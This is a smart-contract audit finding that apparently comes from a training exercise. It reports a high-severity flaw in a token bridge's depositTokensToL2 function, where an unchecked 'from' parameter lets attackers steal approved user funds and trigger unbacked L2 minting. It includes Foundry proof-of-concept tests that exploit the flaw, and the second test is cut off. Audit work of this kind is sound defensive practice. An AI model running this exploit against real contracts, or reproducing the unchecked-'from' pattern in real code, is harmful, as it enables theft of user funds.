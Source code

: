 ## High

### [H-1] Arbitrary `from` parameter in `L1TokenBridge::depositTokensToL2` allows an attacker to mint infinite tokens and steal funds of users that approved the protocol. 

**Description:** `depositTokensToL2` function does not check the `from` parameter, allowing malicious users to steal other user's funds, if they have given token approval to `L1BossBridge` contract. As a matter of fact the `L1Vault.sol` approves the `L1BossBridge`:
```js
    constructor(IERC20 _token) Ownable(msg.sender) {
        token = _token;
        vault = new L1Vault(token);
        // Allows the bridge to move tokens out of the vault to facilitate withdrawals
        vault.approveTo(address(this), type(uint256).max);
    }
```
Moreover, an attacker could call `depositTokensToL2` with the vault address as both `from` and `to` parameters. This would allow the attacker to trigger the Deposit event any number of times, presumably causing the minting of unbacked tokens in L2.

**Impact:** 
1. User's funds could be stolen
2. Possible infinite minting

**Proof of Concept:**
First attack:
1. User gives token approval to `L1BossBridge`
2. Attacker notices it and calls `L1TokenBridge::depositTokensToL2` with user's address as `from` parameter to steal funds 

Second attack:
1. Attacker can trigger `Deposit` event by calling `L1TokenBridge::depositTokensToL2` with vault's addresses as `from` and `to`

PoC: Add following tests to the test suite:

```js
    function testArbitraryFrom() public {
        // 1. User approves the bridge
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        // 2.
        uint256 depositAmount = token.balanceOf(user);
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        assertEq(token.balanceOf(user), 0);
        assertEq(token.balanceOf(address(vault)), depositAmount);
        vm.stopPrank();
    }

    function testInfiniteMint() public {
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);

        uint256 vaultBalance = 500 ether;
        deal(address(token), address(vault), vaultBalance);

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), address(vault), vaultBalance);
```